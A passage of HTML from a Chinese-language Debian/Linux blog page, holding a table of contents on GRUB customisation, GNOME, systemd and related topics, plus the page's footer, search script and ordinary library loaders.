class="toc-nav-number">8.11.1.1.5.</span> <span class="toc-nav-text">只生成 core.img</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#BOOT分区"><span class="toc-nav-number">8.11.1.2.</span> <span class="toc-nav-text">BOOT分区</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#GRUB个性化——GRand-Unified-Bootloader"><span class="toc-nav-number">8.11.2.</span> <span class="toc-nav-text">GRUB个性化——GRand Unified Bootloader</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#GRUB配置"><span class="toc-nav-number">8.11.2.1.</span> <span class="toc-nav-text">GRUB配置</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#视觉配置"><span class="toc-nav-number">8.11.2.2.</span> <span class="toc-nav-text">视觉配置</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#GRUB主题"><span class="toc-nav-number">8.11.2.2.1.</span> <span class="toc-nav-text">GRUB主题</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#设置帧缓冲分辨率"><span class="toc-nav-number">8.11.2.2.2.</span> <span class="toc-nav-text">设置帧缓冲分辨率</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#915resolution-破解"><span class="toc-nav-number">8.11.2.2.3.</span> <span class="toc-nav-text">915resolution 破解</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#背景图像和点阵字体"><span class="toc-nav-number">8.11.2.2.4.</span> <span class="toc-nav-text">背景图像和点阵字体</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#菜单颜色"><span class="toc-nav-number">8.11.2.2.5.</span> <span class="toc-nav-text">菜单颜色</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#隐藏菜单"><span class="toc-nav-number">8.11.2.2.6.</span> <span class="toc-nav-text">隐藏菜单</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#禁用-framebuffer"><span class="toc-nav-number">8.11.2.2.7.</span> <span class="toc-nav-text">禁用 framebuffer</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#添加GRUB启动菜单"><span class="toc-nav-number">8.11.2.3.</span> <span class="toc-nav-text">添加GRUB启动菜单</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#“关机”-菜单项"><span class="toc-nav-number">8.11.2.3.1.</span> <span class="toc-nav-text">“关机” 菜单项</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#“重启”-菜单项"><span class="toc-nav-number">8.11.2.3.2.</span> <span class="toc-nav-text">“重启” 菜单项</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#“固件设置”-菜单项（仅限-UEFI）"><span class="toc-nav-number">8.11.2.3.3.</span> <span class="toc-nav-text">“固件设置” 菜单项（仅限 UEFI）</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#EFI-可执行文件"><span class="toc-nav-number">8.11.2.3.4.</span> <span class="toc-nav-text">EFI 可执行文件</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#UEFI-Shell"><span class="toc-nav-number">8.11.2.3.5.</span> <span class="toc-nav-text">UEFI Shell</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#gdisk"><span class="toc-nav-number">8.11.2.3.6.</span> <span class="toc-nav-text">gdisk</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#Chainload-一个-Arch-Linux-efi-文件"><span class="toc-nav-number">8.11.2.3.7.</span> <span class="toc-nav-text">Chainload 一个 Arch Linux .efi 文件</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#多系统启动"><span class="toc-nav-number">8.11.2.3.8.</span> <span class="toc-nav-text">多系统启动</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#Linux"><span class="toc-nav-number">8.11.2.3.8.1.</span> <span class="toc-nav-text">Linux</span></a></li><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#UEFI-GPT-模式下安装的-Windows"><span class="toc-nav-number">8.11.2.3.8.2.</span> <span class="toc-nav-text">UEFI&#x2F;GPT 模式下安装的 Windows</span></a></li><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#BIOS-MBR-模式下安装的-Windows"><span class="toc-nav-number">8.11.2.3.8.3.</span> <span class="toc-nav-text">BIOS&#x2F;MBR 模式下安装的 Windows</span></a></li></ol></li></ol></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#取消子菜单"><span class="toc-nav-number">8.11.2.4.</span> <span class="toc-nav-text">取消子菜单</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#调用之前的启动条目"><span class="toc-nav-number">8.11.2.5.</span> <span class="toc-nav-text">调用之前的启动条目</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#修改默认菜单条目"><span class="toc-nav-number">8.11.2.6.</span> <span class="toc-nav-text">修改默认菜单条目</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#自动启动非默认启动条目（仅一次）"><span class="toc-nav-number">8.11.2.7.</span> <span class="toc-nav-text">自动启动非默认启动条目（仅一次）</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#演奏一曲——酷吗？"><span class="toc-nav-number">8.11.2.8.</span> <span class="toc-nav-text">演奏一曲——酷吗？</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#现成乐谱"><span class="toc-nav-number">8.11.2.8.1.</span> <span class="toc-nav-text">现成乐谱</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#了解曲调"><span class="toc-nav-number">8.11.2.8.2.</span> <span class="toc-nav-text">了解曲调</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#预览-测试音乐"><span class="toc-nav-number">8.11.2.8.3.</span> <span class="toc-nav-text">预览&#x2F;测试音乐</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#平淡无奇的音乐"><span class="toc-nav-number">8.11.2.8.3.1.</span> <span class="toc-nav-text">平淡无奇的音乐</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#音符的频率"><span class="toc-nav-number">8.11.2.8.4.</span> <span class="toc-nav-text">音符的频率</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#音调"><span class="toc-nav-number">8.11.2.8.4.1.</span> <span class="toc-nav-text">音调</span></a></li><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#频率表"><span class="toc-nav-number">8.11.2.8.4.2.</span> <span class="toc-nav-text">频率表</span></a></li></ol></li></ol></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#加密的GRUB-——-密码保护GRUB菜单，或者仅防止编辑（推荐）"><span class="toc-nav-number">8.11.2.9.</span> <span class="toc-nav-text">加密的GRUB —— 密码保护GRUB菜单，或者仅防止编辑（推荐）</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#GRUB-配置文件组成结构"><span class="toc-nav-number">8.11.2.9.1.</span> <span class="toc-nav-text">GRUB 配置文件组成结构</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#用密码保护-GRUB-菜单"><span class="toc-nav-number">8.11.2.9.2.</span> <span class="toc-nav-text">用密码保护 GRUB 菜单</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#只针对编辑-GRUB-和控制台选项进行密码保护"><span class="toc-nav-number">8.11.2.9.3.</span> <span class="toc-nav-text">只针对编辑 GRUB 和控制台选项进行密码保护</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#在没有按着-SHIFT-键时隐藏-GRUB-界面"><span class="toc-nav-number">8.11.2.10.</span> <span class="toc-nav-text">在没有按着 SHIFT 键时隐藏 GRUB 界面</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#将-UUID-和基础脚本结合使用"><span class="toc-nav-number">8.11.2.11.</span> <span class="toc-nav-text">将 UUID 和基础脚本结合使用</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#探测其他操作系统-os-prober"><span class="toc-nav-number">8.11.2.12.</span> <span class="toc-nav-text">探测其他操作系统(os-prober)</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#MS-Windows"><span class="toc-nav-number">8.11.2.12.1.</span> <span class="toc-nav-text">MS Windows</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#额外的参数"><span class="toc-nav-number">8.11.2.13.</span> <span class="toc-nav-text">额外的参数</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#移除MBR-GRUB"><span class="toc-nav-number">8.11.2.14.</span> <span class="toc-nav-text">移除MBR GRUB</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#LVM"><span class="toc-nav-number">8.11.2.15.</span> <span class="toc-nav-text">LVM</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#RAID阵列"><span class="toc-nav-number">8.11.2.16.</span> <span class="toc-nav-text">RAID阵列</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#boot-加密"><span class="toc-nav-number">8.11.2.17.</span> <span class="toc-nav-text">&#x2F;boot 加密</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#定制-grub-cfg"><span class="toc-nav-number">8.11.2.18.</span> <span class="toc-nav-text">定制 grub.cfg</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#GNOME桌面环境"><span class="toc-nav-number">8.11.3.</span> <span class="toc-nav-text">GNOME桌面环境</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#调整GNOME屏幕分辨率-DPI"><span class="toc-nav-number">8.11.3.1.</span> <span class="toc-nav-text">调整GNOME屏幕分辨率 - DPI</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#让Debian-GNOME支持超级用户登录——不建议"><span class="toc-nav-number">8.11.3.2.</span> <span class="toc-nav-text">让Debian GNOME支持超级用户登录——不建议</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#备份GNOME配置"><span class="toc-nav-number">8.11.3.3.</span> <span class="toc-nav-text">备份GNOME配置</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Desktop——添加GNOME-Application列表"><span class="toc-nav-number">8.11.3.4.</span> <span class="toc-nav-text">Desktop——添加GNOME Application列表</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Systemd——创建自己的服务"><span class="toc-nav-number">8.11.4.</span> <span class="toc-nav-text">Systemd——创建自己的服务</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Update-alternatives设置软件版本偏好"><span class="toc-nav-number">8.11.5.</span> <span class="toc-nav-text">Update-alternatives设置软件版本偏好</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Grub-Setting修改默认网卡命名规则"><span class="toc-nav-number">8.11.6.</span> <span class="toc-nav-text">Grub-Setting修改默认网卡命名规则</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Addgroup禁止某些软件联网的方法"><span class="toc-nav-number">8.11.7.</span> <span class="toc-nav-text">Addgroup禁止某些软件联网的方法</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#SwapFile——Linux交换文件代替交换分区"><span class="toc-nav-number">8.11.8.</span> <span class="toc-nav-text">SwapFile——Linux交换文件代替交换分区</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#从Debian-Buster迁移到Beowulf——一款没有Systemd的发行版"><span class="toc-nav-number">8.11.9.</span> <span class="toc-nav-text">从Debian Buster迁移到Beowulf——一款没有Systemd的发行版</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#网络配置（可选）"><span class="toc-nav-number">8.11.9.1.</span> <span class="toc-nav-text">网络配置（可选）</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#开始迁移"><span class="toc-nav-number">8.11.9.2.</span> <span class="toc-nav-text">开始迁移</span></a></li></ol></li></ol></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#其他（杂记）"><span class="toc-nav-number">8.12.</span> <span class="toc-nav-text">其他（杂记）</span></a></li></ol></li></ol>
          
        
        </div>
      </aside>
    


      <!-- Sidebar Container -->
      <div class="
                col-lg-8 col-lg-offset-1
                col-md-10 col-md-offset-1
                sidebar-container">

        <!-- Featured Tags -->
        
        <section>
          <!-- no hr -->
          <h5>
            <a href="/tags/">FEATURED TAGS</a>
          </h5>
          <div class="tags">
            
            <a class="tag" href="/tags/#Daily" title="Daily">Daily</a>
            
            <a class="tag" href="/tags/#GNU/Linux" title="GNU/Linux">GNU/Linux</a>
            
            <a class="tag" href="/tags/#Debian" title="Debian">Debian</a>
            
          </div>
        </section>
        

        <!-- Friends Blog -->
        
        <hr>
        <h5>FRIENDS</h5>
        <ul class="list-inline">

          
          <li>
            <a href="https://civiccccc.ltd" target="_blank">主站</a>
          </li>
          
          <li>
            <a href="https://github.com/xjx0106" target="_blank">国庆电播小弟</a>
          </li>
          
          <li>
            <a href="https://github.com/itcast-ying" target="_blank">itcast-ying</a>
          </li>
          
          <li>
            <a href="https://github.com/cjj19970505" target="_blank">Xeon-J</a>
          </li>
          
          <li>
            <a href="https://github.com/XeonKHJ" target="_blank">Xeon-H</a>
          </li>
          
          <li>
            <a href="https://gitee.com/rmshadows" target="_blank">Gitee - Ryan Yim</a>
          </li>
          
          <li>
            <a href="https://rmshadows.gitee.io/404" target="_blank">404 No Found Page</a>
          </li>
          
        </ul>
        
      </div>
    </div>
  </div>
</article>


<!-- anchorjs start -->
<!-- async load function -->
<!-- anchor-js, Doc:http://bryanbraun.github.io/anchorjs/ -->
<script type="text/javascript">
  // async load function
  function async (u, c) {
    var d = document,
      t = 'script',
      o = d.createElement(t),
      s = d.getElementsByTagName(t)[0];
    o.src = u;
    if (c) {
      o.addEventListener('load', function(e) {
        c(null, e);
      }, false);
    }
    s.parentNode.insertBefore(o, s);
  };
</script>
<script type="text/javascript">
  //anchor-js, Doc:http://bryanbraun.github.io/anchorjs/
  async ("https://cdn.bootcss.com/anchor-js/1.1.1/anchor.min.js", function() {
    anchors.options = {
      visible: 'hover',
      placement: 'left',
      // icon: 'ℬ'
      icon: '❡'
    };
    anchors.add().remove('.intro-header h1').remove('.subheading').remove('.sidebar-container h5');
  });
</script>
<style>
  /* place left on bigger screen */
  @media all and (min-width: 800px) {
    .anchorjs-link {
      position: absolute;
      left: -0.75em;
      font-size: 1.1em;
      margin-top: -0.1em;
    }
  }
</style>

<!-- anchorjs end -->


    <!-- Footer (contains ThemeColor、viewer) -->
    <!-- Footer -->
<footer>
  <div class="container">
    <div class="row">
      <div class="col-lg-8 col-lg-offset-2 col-md-10 col-md-offset-1">
        <ul class="list-inline text-center">
          
            <li>
              <a href="/feed.xml">
                <span class="fa-stack fa-lg">
                  <i class="fa fa-circle fa-stack-2x"></i>
                  <i class="fa fa-rss fa-stack-1x fa-inverse"></i>
                </span>
              </a>
            </li>
          

          
            <li>
              <a target="_blank" href="https://github.com/rmshadows">
                <span class="fa-stack fa-lg">
                  <i class="fa fa-circle fa-stack-2x"></i>
                  <i class="fa fa-github fa-stack-1x fa-inverse"></i>
                </span>
              </a>
            </li>
          

          

          
            <li>
              <a target="_blank" href="https://www.instagram.com/just_aaaa_r">
                <span class="fa-stack fa-lg">
                  <i class="fa fa-circle fa-stack-2x"></i>
                  <i class="fa fa-instagram fa-stack-1x fa-inverse"></i>
                </span>
              </a>
            </li>
          

          

          

          
            <li>
              <a target="_blank" href="https://www.zhihu.com/people/rmshadows">
                <span class="fa-stack fa-lg">
                  <i class="fa fa-circle fa-stack-2x"></i>
                  <i class="fa  fa-stack-1x fa-inverse">知</i>
                </span>
              </a>
            </li>
          

          

        </ul>
        <p class="copyright text-muted">
          Copyright &copy;
          Ryan Yim
          2025
          <br>
          Theme by
          <a href="http://beantech.org" target="_blank" rel="noopener">BeanTech</a>
          <span style="display: inline-block; margin: 0 5px;">
            <i class="fa fa-heart"></i>
          </span>
          re-Ported by
          <a href="https://v-vincen.life/" target="_blank" rel="noopener">Live My Life</a>
          |
          <iframe style="margin-left: 2px; margin-bottom:-5px;" frameborder="0" scrolling="0" width="91px" height="20px" src="https://ghbtns.com/github-btn.html?user=V-Vincen&repo=V-Vincen.github.io&type=star&count=true"></iframe>
        </p>
      </div>
    </div>
  </div>
</footer>

<a id="rocket" href="#top" class=""></a>

<!-- jQuery -->
<script type="text/javascript" src="/js/jquery.min.js"></script>
<!-- <script type="text/javascript" src="/js/jquery.js"></script> -->
<!-- <script type="text/javascript" src="//cdnjs.loli.net/ajax/libs/jquery/3.2.1/jquery.min.js"></script> -->

<!-- Bootstrap Core JavaScript -->
<script type="text/javascript" src="/js/bootstrap.min.js"></script>

<!-- Custom Theme JavaScript -->
<!--2022-03-28 添加了随机丝带特效-->

  <script type="text/javascript" src="/js/ribbonDynamic.js"></script>

<script type="text/javascript" src="/js/hux-blog.min.js"></script>

<!-- catalog -->
<script type="text/javascript" async="true" src="/js/catalog.js?v=1.0.0"></script>

<!-- totop(rocket) -->
<script type="text/javascript" async="true" src="/js/totop.js?v=1.0.0"></script>

<!-- Busuanzi JavaScript -->

  <!-- <script type="text/javascript" async="true" src="/js/busuanzi.pure.mini.js"></script> -->
  <script async src="//busuanzi.ibruce.info/busuanzi/2.3/busuanzi.pure.mini.js"></script>


  <!-- Scroll start -->
  <script type="text/javascript" src="/js/scroll.js"></script>
  <!-- Scroll end -->


  <!-- ThemeColor start -->
  <script type="text/javascript" src="/js/themecolor.js"></script>
  <!-- ThemeColor end -->


  <!-- viewer start -->
  <!-- viewer start (Picture preview) -->
  <script type="text/javascript" src="/js/viewer/viewer.min.js"></script>
  <script type="text/javascript" src="/js/viewer/pic-viewer.js"></script>
  <!-- viewer end -->


<script>
  // async load function
  function async (u, c) {
    var d = document,
      t = 'script',
      o = d.createElement(t),
      s = d.getElementsByTagName(t)[0];
    o.src = u;
    if (c) {
      o.addEventListener('load', function (e) {
        c(null, e);
      }, false);
    }
    s.parentNode.insertBefore(o, s);
  }

  // fastClick.js
  async ("https://cdn.bootcss.com/fastclick/1.0.6/fastclick.min.js", function () {
    var $nav = document.querySelector("nav");
    if ($nav)
      FastClick.attach($nav);
    }
  )
</script>

<!-- Because of the native support for backtick-style fenced code blocks right within the Markdown is landed in Github Pages, From V1.6, There is no need for Highlight.js, so Huxblog drops it officially. -
https://github.com/blog/2100-github-pages-now-faster-and-simpler-with-jekyll-3-0 - https://help.github.com/articles/creating-and-highlighting-code-blocks/ -->
<!-- <script> async("http://cdn.bootcss.com/highlight.js/8.6/highlight.min.js", function(){ hljs.initHighlightingOnLoad(); }) </script> <link href="http://cdn.bootcss.com/highlight.js/8.6/styles/github.min.css" rel="stylesheet"> -->

<!-- jquery.tagcloud.js -->
<!-- <script> // only load tagcloud.js in tag.html if($('#tag_cloud').length !== 0){ async("https://rmshadows.gitee.io/js/jquery.tagcloud.js",function(){ $.fn.tagcloud.defaults = { //size: {start: 1, end: 1, unit: 'em'}, color: {start:
'#bbbbee', end: '#0085a1'}, }; $('#tag_cloud a').tagcloud(); }) } </script> -->

    
    <!---自定义的代码 所有页面-->
    
        <script type="text/javascript" src="/js/on_mouse_clicked/emotions.js"></script>
    

    <!-- Search -->
    
    <div class="popup search-popup local-search-popup">
  <span class="popup-btn-close">
    ESC
  </span>
  <div class="container">
    <div class="row">
      <!-- <div class="col-md-9 col-md-offset-1"> -->
      <div class="col-lg-9 col-lg-offset-1 col-md-10 col-md-offset-1 local-search-content">

        <div class="local-search-header clearfix">

          <div class="local-search-input-wrapper">
            <span class="search-icon">
              <i class="fa fa-search fa-lg" style="margin: 25px 10px 25px 20px;"></i>
            </span>
            <input autocomplete="off" placeholder="Search..." type="text" id="local-search-input">
          </div>
        </div>
        <div id="local-search-result"></div>
      </div>
    </div>
  </div>
</div>


  <script src="/js/ziploader.js"></script>
  <script>
    // Popup Window;
    var isfetched = false;
    var isXml = true;
    // Search DB path;
    var search_path = "search.json";
    if (search_path.length === 0) {
      search_path = "search.xml";
    } else if (/json$/i.test(search_path)) {
      isXml = false;
    }
    // monitor main search box;
    var onPopupClose = function (e) {
      $('.popup').fadeOut(300);
      $('#local-search-input').val('');
      $('.search-result-list').remove();
      $('#no-result').remove();
      $('body').css('overflow', '');
    }

    function proceedsearch() {
      $('.popup').fadeIn(300);
      var $localSearchInput = $('#local-search-input');
      $localSearchInput.attr("autocapitalize", "none");
      $localSearchInput.attr("autocorrect", "off");
      $localSearchInput.focus();
    }
    // get search zip version
    $.get('/searchVersion.json?t=' + (+new Date()), function (res) {
      if (localStorage.getItem('searchVersion') !== res) {
        localStorage.setItem('searchVersion', res);
        initSearchJson();
      }
    });

    function initSearchJson() {
      initLoad(['/search.flv'], {
        loadOptions: {
          success: function (obj) {
            localStorage.setItem('searchJson', obj['search.json'])
          },
          error: function (e) {
            return console.log(e)
          }
        },
        returnOptions: {
          'json': TYPE_TEXT
        },
        mimeOptions: {
          'json': 'application/json'
        }
      })
    }
    // search function;
    var searchFunc = function (search_id, content_id) {
      'use strict';
      isfetched = true;
      var datas = JSON.parse(localStorage.getItem('searchJson'));
      // console.log(search_id)
      var input = document.getElementById(search_id);
      var resultContent = document.getElementById(content_id);
      var inputEventFunction = function () {
        var searchText = input.value.trim().toLowerCase();
        var keywords = searchText.split(/[\s\-]+/);
        if (keywords.length > 1) {
          keywords.push(searchText);
        }
        var resultItems = [];
        if (searchText.length > 0) {
          // perform local searching
          datas.forEach(function (data) {
            var isMatch = false;
            var hitCount = 0;
            var searchTextCount = 0;
            var title = data.title
              ? data.title.trim()
              : '';
            var titleInLowerCase = title.toLowerCase();
            var content = data.content
              ? data.content.trim().replace(/<[^>]+>/g, "")
              : '';
            var contentInLowerCase = content.toLowerCase();
            var articleUrl = decodeURIComponent(data.url);

            var date = data.date;
            var dateTime = date.replace(/T/, " ").replace(/.000Z/, "");
            var imgUrl = data.header_img;

            var indexOfTitle = [];
            var indexOfContent = [];
            // only match articles with not empty titles
            keywords.forEach(function (keyword) {
              function getIndexByWord(word, text, caseSensitive) {
                var wordLen = word.length;
                if (wordLen === 0) {
                  return [];
                }
                var startPosition = 0,
                  position = [],
                  index = [];
                if (!caseSensitive) {
                  text = text.toLowerCase();
                  word = word.toLowerCase();
                }
                while ((position = text.indexOf(word, startPosition)) > -1) {
                  index.push({position: position, word: word});
                  startPosition = position + wordLen;
                }
                return index;
              }
              indexOfTitle = indexOfTitle.concat(getIndexByWord(keyword, titleInLowerCase, false));
              indexOfContent = indexOfContent.concat(getIndexByWord(keyword, contentInLowerCase, false));
            });
            if (indexOfTitle.length > 0 || indexOfContent.length > 0) {
              isMatch = true;
              hitCount = indexOfTitle.length + indexOfContent.length;
            }
            // show search results
            if (isMatch) {
              // sort index by position of keyword
              [indexOfTitle, indexOfContent].forEach(function (index) {
                index.sort(function (itemLeft, itemRight) {
                  if (itemRight.position !== itemLeft.position) {
                    return itemRight.position - itemLeft.position;
                  } else {
                    return itemLeft.word.length - itemRight.word.length;
                  }
                });
              });
              // merge hits into slices
              function mergeIntoSlice(text, start, end, index) {
                var item = index[index.length - 1];
                var position = item.position;
                var word = item.word;
                var hits = [];
                var searchTextCountInSlice = 0;
                while (position + word.length <= end && index.length != 0) {
                  if (word === searchText) {
                    searchTextCountInSlice++;
                  }
                  hits.push({position: position, length: word.length});
                  var wordEnd = position + word.length;
                  // move to next position of hit
                  index.pop();
                  while (index.length != 0) {
                    item = index[index.length - 1];
                    position = item.position;
                    word = item.word;
                    if (wordEnd > position) {
                      index.pop();
                    } else {
                      break;
                    }
                  }
                }
                searchTextCount += searchTextCountInSlice;
                return {hits: hits, start: start, end: end, searchTextCount: searchTextCountInSlice};
              }
              var slicesOfTitle = [];
              if (indexOfTitle.length != 0) {
                slicesOfTitle.push(mergeIntoSlice(title, 0, title.length, indexOfTitle));
              }
              var slicesOfContent = [];
              while (indexOfContent.length != 0) {
                var item = indexOfContent[indexOfContent.length - 1];
                var position = item.position;
                var word = item.word;
                // cut out 100 characters
                var start = position - 20;
                var end = position + 80;
                if (start < 0) {
                  start = 0;
                }
                if (end < position + word.length) {
                  end = position + word.length;
                }
                if (end > content.length) {
                  end = content.length;
                }
                slicesOfContent.push(mergeIntoSlice(content, start, end, indexOfContent));
              }
              // sort slices in content by search text's count and hits' count
              slicesOfContent.sort(function (sliceLeft, sliceRight) {
                if (sliceLeft.searchTextCount !== sliceRight.searchTextCount) {
                  return sliceRight.searchTextCount - sliceLeft.searchTextCount;
                } else if (sliceLeft.hits.length !== sliceRight.hits.length) {
                  return sliceRight.hits.length - sliceLeft.hits.length;
                } else {
                  return sliceLeft.start - sliceRight.start;
                }
              });
              // select top N slices in content
              var upperBound = parseInt('1');
              if (upperBound >= 0) {
                slicesOfContent = slicesOfContent.slice(0, upperBound);
              }
              // highlight title and content
              function highlightKeyword(text, slice) {
                var result = '';
                var prevEnd = slice.start;
                slice.hits.forEach(function (hit) {
                  result += text.substring(prevEnd, hit.position);
                  var end = hit.position + hit.length;
                  result += '<b class="search-keyword">' + text.substring(hit.position, end) + '</b>';
                  prevEnd = end;
                });
                result += text.substring(prevEnd, slice.end);
                return result;
              }
              var resultItem = '';

              // if (slicesOfTitle.length != 0) {   resultItem += "<li><a target='_blank' href='" + articleUrl + "' class='search-result-title'>" + highlightKeyword(title, slicesOfTitle[0]) + "</a>"; } else {   resultItem += "<li><a target='_blank' href='" +
              // articleUrl + "' class='search-result-title'>" + title + "</a>"; } slicesOfContent.forEach(function (slice) {   resultItem += "<a target='_blank' href='" + articleUrl + "'><p class=\"search-result\">" + highlightKeyword(content, slice) +
              // "...</p></a>"; }); resultItem += "</li>";

              if (slicesOfTitle.length != 0) {
                resultItem += "<a target='_blank' href='" + articleUrl + "' class='search-result'><div class='search-result-left'><div class='search-result-title'>" + highlightKeyword(title, slicesOfTitle[0]) + "</div><time class='search-result-date'>" + dateTime + "</time>";
              } else {
                resultItem += "<a target='_blank' href='" + articleUrl + "' class='search-result'><div class='search-result-left'><div class='search-result-title'>" + title + "</div><time class='search-result-date'>" + dateTime + "</time>";
              }
              slicesOfContent.forEach(function (slice) {
                resultItem += "<p class=\"search-result-content\">" + highlightKeyword(content, slice) + "...</p>";
              });
              resultItem += "</div><div class='search-result-right'></img></div></a>";

              resultItems.push({item: resultItem, searchTextCount: searchTextCount, hitCount: hitCount, id: resultItems.length});
            }
          })
        };

        if (keywords.length === 1 && keywords[0] === "") {
          resultContent.innerHTML = '<div id="no-result"></div>'
        } else if (resultItems.length === 0) {
          resultContent.innerHTML = '<div id="no-result"></div>'
        } else {
          resultItems.sort(function (resultLeft, resultRight) {
            if (resultLeft.searchTextCount !== resultRight.searchTextCount) {
              return resultRight.searchTextCount - resultLeft.searchTextCount;
            } else if (resultLeft.hitCount !== resultRight.hitCount) {
              return resultRight.hitCount - resultLeft.hitCount;
            } else {
              return resultRight.id - resultLeft.id;
            }
          });
          var searchResultList = '<div class=\"search-result-list\">';
          resultItems.forEach(function (result) {
            searchResultList += result.item;
          })
          searchResultList += "</div>";
          resultContent.innerHTML = searchResultList;
        }
      }
      if ('auto' === 'auto') {
        input.addEventListener('input', inputEventFunction);
      } else {
        $('.search-icon').click(inputEventFunction);
        input.addEventListener('keypress', function (event) {
          if (event.keyCode === 13) {
            inputEventFunction();
          }
        });
      }
      // remove loading animation
      $('body').css('overflow', '');
      proceedsearch();
    }
    // handle and trigger popup window;
    $('.popup-trigger').click(function (e) {
      e.stopPropagation();
      if (isfetched === false) {
        searchFunc('local-search-input', 'local-search-result');
      } else {
        proceedsearch();
      };
    });
    $('.popup-btn-close').click(onPopupClose);
    $('.popup').click(function (e) {
      e.stopPropagation();
    });
    $(document).on('keyup', function (event) {
      var shouldDismissSearchPopup = event.which === 27 && $('.search-popup').is(':visible');
      if (shouldDismissSearchPopup) {
        onPopupClose();
      }
    });

    document.addEventListener('mouseup', (e) => {
      var _con = document.querySelector(".local-search-content");
      if (_con) {
        if (!_con.contains(e.target)) {
          onPopupClose();
        }
      }
    });
  </script>


    

    <!-- Image to hack wechat -->
    <!--  -->
    <!-- Migrate from head to bottom, no longer block render and still work -->

<script type="text/x-mathjax-config">
    MathJax.Hub.Config({
        tex2jax: {
            inlineMath: [ ["$","$"], ["\\(","\\)"] ],
            skipTags: ['script', 'noscript', 'style', 'textarea', 'pre', 'code'],
            processEscapes: true
        }
    });
    MathJax.Hub.Queue(function() {
        var all = MathJax.Hub.getAllJax();
        for (var i = 0; i < all.length; ++i)
            all[i].SourceElement().parentNode.className += ' has-jax';
    });
</script>
